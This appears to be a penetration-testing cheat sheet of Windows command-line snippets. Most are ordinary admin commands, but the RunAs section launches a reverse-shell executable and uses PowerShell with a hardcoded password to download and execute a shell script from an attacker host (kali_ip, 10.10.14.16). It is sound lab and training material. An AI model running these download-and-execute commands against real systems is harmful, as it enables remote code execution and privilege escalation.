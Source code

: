 ## Windows


## Copy output to clipboard

```
| clip
```

## Get computes IP Address

```
ipconfig|find "IPv4"
```

## Use Environment Variables

```
echo %OS%
echo %PROCESSOR_ARCHITECTURE%
```

## Find Files

```
dir /s <filename> # or extensions
Get-ChildItem -Path C:\ -Include *filename_wildcard* -Recurse -ErrorAction SilentlyContinue
```

## Find Large Files over 50MB

```
find / -type f -size +50M
```

## Display Environment Variables

```
set
```

## RunAs

```
# cmd
runas /savecred /user:admin C:\abcd\reverse.exe

# PowerShell Runas 1
$password = ConvertTo-SecureString 'pass123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://kali_ip/shell.ps1')" -Credential $cred

# PowerShell Runas 2
$username = "domain\Administrator"
$password = "pass123"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/shell.ps1') } -Credential $cred -Computer localhost
```

## Wmi tasklist

```
Look at applications or services installed in Program Files directory is usually user installed
If so use 'icacls' to see permissions of said file and who can run said file
```